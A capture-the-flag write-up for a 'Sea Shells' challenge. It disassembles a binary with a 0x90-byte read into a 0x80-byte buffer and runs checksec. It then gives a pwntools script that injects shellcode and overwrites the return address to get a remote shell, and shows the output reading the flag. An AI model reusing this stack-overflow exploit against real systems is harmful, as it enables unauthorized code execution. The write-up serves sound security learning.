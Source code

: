 # Sea Shells

For this challenge we're presented with a binary file and a remote endpoint to connect to.
I made the assumption that what's on the other end of the TCP socket was going to be the provided binary.

Let's see what it does
`objdump -d seashells`

```
00000000004011fe <main>:
  4011fe:	55                   	push   %rbp
  4011ff:	48 89 e5             	mov    %rsp,%rbp
  401202:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
  401206:	b8 00 00 00 00       	mov    $0x0,%eax
  40120b:	e8 a0 ff ff ff       	callq  4011b0 <setup>
  401210:	48 8d 45 80          	lea    -0x80(%rbp),%rax
  401214:	48 89 c6             	mov    %rax,%rsi
  401217:	48 8d 3d fe 0d 00 00 	lea    0xdfe(%rip),%rdi        # 40201c <_IO_stdin_used+0x1c>
  40121e:	b8 00 00 00 00       	mov    $0x0,%eax
  401223:	e8 38 fe ff ff       	callq  401060 <printf@plt>
  401228:	48 8d 3d f1 0d 00 00 	lea    0xdf1(%rip),%rdi        # 402020 <_IO_stdin_used+0x20>
  40122f:	b8 00 00 00 00       	mov    $0x0,%eax
  401234:	e8 27 fe ff ff       	callq  401060 <printf@plt>
  401239:	48 8d 45 80          	lea    -0x80(%rbp),%rax
  40123d:	ba 90 00 00 00       	mov    $0x90,%edx
  401242:	48 89 c6             	mov    %rax,%rsi
  401245:	bf 00 00 00 00       	mov    $0x0,%edi
  40124a:	e8 31 fe ff ff       	callq  401080 <read@plt>
  40124f:	48 8d 3d 01 0e 00 00 	lea    0xe01(%rip),%rdi        # 402057 <_IO_stdin_used+0x57>
  401256:	e8 e5 fd ff ff       	callq  401040 <puts@plt>
  40125b:	b8 00 00 00 00       	mov    $0x0,%eax
  401260:	c9                   	leaveq 
  401261:	c3                   	retq   
  401262:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  401269:	00 00 00 
  40126c:	0f 1f 40 00          	nopl   0x0(%rax)

```

Looks like it does nothing other than print out a couple of lines, accept some input and then print another line. 

We can see from the above that the call to read on stdin is reads 0x90 bytes in to a buffer that's only 0x80 bytes long. 

That should give us just enough space to overflow the buffer over the return pointer of main. 

Let's have a look at checksec 

```
checksec --file=seashells
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   77) Symbols	  No	0		2		seashells

``` 

Good news it looks like the stack is executable, ok we should be able to read the address that is echo's out at the start. That should point to the start of our input. 

We just need to make main return in to our input.

```
from pwn import *
context.arch="amd64"
#sh = process("./seashells")
sh = remote("challenge.ctf.games", 30398)
addr = int(sh.recvline(), 16)
print(hex(addr))
print(sh.recvuntil(":"))
sh.sendline(fit({0: asm(shellcraft.amd64.linux.sh()), 0x88: addr}))
sh.interactive()

```


```
python3 exploit.py 
[+] Opening connection to challenge.ctf.games on port 30398: Done
0x7ffcf3a6a8b0
b'How many sea shells did Sally sell by the sea shore?:'
[*] Switching to interactive mode
 Nope
$ ls
flag.txt
seashells
$ cat flag.txt
flag{popping_shells_by_the_sea_shore}

```


Worked a treat
